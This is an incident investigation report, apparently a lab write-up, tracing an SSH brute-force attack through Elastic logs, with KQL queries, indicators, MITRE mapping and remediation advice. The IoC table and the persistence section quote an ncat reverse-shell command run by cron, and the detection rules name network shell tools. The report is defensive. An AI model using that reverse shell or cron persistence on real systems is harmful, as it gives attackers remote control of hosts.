





# Incident Investigation Report: SSH Brute-Force & Persistence Analysis

**Target/Organization:** Enterprise Infrastructure

**Severity:** Critical

**Date of Incident:** April 4, 2025 

**Prepared By:** Neel Soni

---

## Executive Summary

On **April 4, 2025**, an adversary initiated a targeted attack sequence against the internal server fleet, culminating in the compromise of valid user accounts, persistence establishment, and privilege escalation attempts.

The threat actor conducted a rapid SSH password-guessing (brute-force) campaign originating from source IP **`192.168.211.69`**. Upon gaining initial access via the compromised user account **`ellen`**, the attacker immediately scheduled a malicious cron job to establish an outbound reverse shell back to their infrastructure. Following persistence placement, suspicious root-level credential manipulation was observed across interactive terminal sessions.

Immediate containment measures are required to isolate the compromised endpoint, sever the active reverse shell connections, remove scheduled tasks, and invalidate exposed credentials.

---

## Indicators of Compromise (IoCs) & Incident Summary

| Category | Indicator / Detail | Description |
| --- | --- | --- |
| **Attacker Infrastructure** | `192.168.211.69` | Source IP for brute-force attack & C2 reverse shell target |
| **C2 Port / Command** | `9999` / `/usr/bin/ncat -e /bin/bash 192.168.211.69 9999` | Persistence mechanism via cron execution |
| **Target Accounts** | `ellen`, `root` | Initial access victim (`ellen`), privilege escalation target (`root`) |
| **Affected System** | `appsrv04` | Application server target identified in telemetry |

---

## Detailed Technical Narrative & Incident Walkthrough

### Phase 1: Ingestion & Baseline Log Discovery

The investigation commenced within Elastic Security by querying ingested telemetry across the `logs-*` index pattern for the timeframe between **09:50:00 and 10:00:00 UTC**. Baseline log analysis revealed broad system activity across multiple application servers, including `appsrv04` and `appsrv05`, capturing syslog, Filebeat, and system authentication streams.

*Figure 1: Initial log discovery in Elastic Discover displaying overall system hit volume across application servers.*




---

### Phase 2: Initial Access (SSH Brute-Force Campaign)

To investigate potential authentication abuse, telemetry was filtered for failed login events using the KQL query:

```text
event.dataset : "system.auth" and event.outcome : "failure"
```

The results showed a sharp spike of **76 failed SSH login attempts** starting at **09:51:30 UTC**. Analysis of the log entries confirmed an automated brute-force attempt originating exclusively from IP address **`192.168.211.69`**. The adversary systematically targeted multiple valid account usernames, including `luigi`, `leon`, and `ellen`.

*Figure 2: Authentication failure telemetry showing rapid login attempts from 192.168.211.69 across various accounts.*



By evaluating subsequent authentication events from the same source IP using:

```text
event.dataset: "system.auth" and system.auth.ssh.event: "Accepted" and source.ip: "192.168.211.69"
```

A successful login was identified at **09:54:47 UTC**. The adversary successfully guessed the credentials for the user account **`ellen`**, completing the Initial Access phase via SSH password guessing.

*Figure 3: Successful SSH authentication event for user 'ellen' from attacker IP 192.168.211.69.*



---

### Phase 3: Persistence Mechanism (Malicious Cron Execution)

Following initial access, the timeline was expanded beyond **10:00:00 UTC** to audit system process execution and scheduled tasks. Querying system daemon logs with:

```text
event.dataset : "system.syslog" and process.name: "CRON"
```

revealed that at **10:03:01 UTC**, the `CRON` service began executing a recurring process created under user `ellen`'s profile.

The cron job executed the following command every minute:

```bash
/usr/bin/ncat -e /bin/bash 192.168.211.69 9999
```

This command uses Netcat to spawn an interactive Bash shell (`/bin/bash`) and direct it back to port `9999` on the attacker's IP (`192.168.211.69`), ensuring persistent remote access even if the SSH session were terminated.

*Figure 4: Cron execution logs showing recurring outbound Netcat reverse shell commands under user 'ellen'.*



---

### Phase 4: Privilege Escalation & Activity Analysis

To determine whether the adversary escalated privileges on `appsrv04`, Linux audit logs were analyzed using the KQL query:

```text
event.dataset: "auditd.log" and user.name: "root" and event.action: "refreshed-credentials"
```

Two distinct credential refresh actions for the `root` account were recorded shortly after the persistence mechanism was established:

1. **10:13:50 UTC**: Executed from terminal session `/dev/pts/0`.
2. **10:14:38 UTC**: Executed directly over the established `ssh` session context.

This activity indicates that the threat actor either attempted to switch users via `su`/`sudo` or successfully altered/refreshed root-level credentials to maintain administrative dominance over the target host.

*Figure 5: Auditd telemetry confirming root credential refresh operations across terminal and SSH sessions.*



---

## Threat Mapping (MITRE ATT&CK)

| Tactic | Technique ID | Technique Name | Applied Context |
| --- | --- | --- | --- |
| **Initial Access** | [T1110.001](https://attack.mitre.org/techniques/T1110/001/) | Brute Force: Password Guessing | Password spraying/brute force against SSH targeting user `ellen`. |
| **Initial Access** | [T1078](https://attack.mitre.org/techniques/T1078/) | Valid Accounts | Gained authenticated access using compromised `ellen` account. |
| **Persistence** | [T1053.003](https://attack.mitre.org/techniques/T1053/003/) | Scheduled Task/Job: Cron | Installed crontab entry running `ncat` reverse shell every minute. |
| **Privilege Escalation** | [T1078.003](https://attack.mitre.org/techniques/T1078/003/) | Valid Accounts: Local Accounts | Executed root privilege/credential refresh commands via `/dev/pts/0`. |

---

## Comprehensive Remediation & Guidance

### 1. Immediate Containment Action Plan

* **Network Isolation:** Apply emergency host-based firewall (iptables/nftables) or network ACL rules to block all traffic to/from `192.168.211.69`.
* **Process Termination:** Terminate active Netcat instances (`ncat`) and kill running cron child processes associated with user `ellen`.
* **Session Termination:** Sever active SSH sessions and revoke active TTY terminals (`/dev/pts/0`) for `ellen` and `root`.
* **Persistence Removal:** Inspect and purge user `ellen`'s crontab (`crontab -r -u ellen`) and inspect system-wide cron directories (`/etc/cron*`, `/var/spool/cron/crontabs/`).

### 2. Eradication & Password Reset

* Reset credentials for user account `ellen` and forced credential updates across all accounts sharing password policies.
* Rotate the `root` account password across all connected infrastructure using a Privileged Access Management (PAM) solution.

### 3. Hardening & Long-Term Prevention

* **SSH Configuration:**
* Disable root login via SSH (`PermitRootLogin no` in `/etc/ssh/sshd_config`).
* Enforce SSH public key authentication and disable standard password authentication (`PasswordAuthentication no`).


* **Rate-Limiting:** Deploy defensive agents like `fail2ban` or SSH rate-limiting rules to automatically drop IPs generating multiple failed logins within short windows.
* **MFA Enforcement:** Mandate Multi-Factor Authentication (MFA) for all SSH remote connections and privileged commands (`sudo`).

### 4. SIEM & Detection Engineering Rules

* **Alert Rule 1 (Brute-Force):** Trigger a high-severity alert when >10 `system.auth` failure events occur from a single `source.ip` within 5 minutes, followed by a single `Accepted` authentication event.
* **Alert Rule 2 (Unauthorized Reverse Shell Execution):** Trigger a critical alert whenever `ncat`, `nc`, `netcat`, `socat`, or standard interactive shells (`/bin/bash`, `/bin/sh`) are executed by background job schedulers (`CRON`, `at`).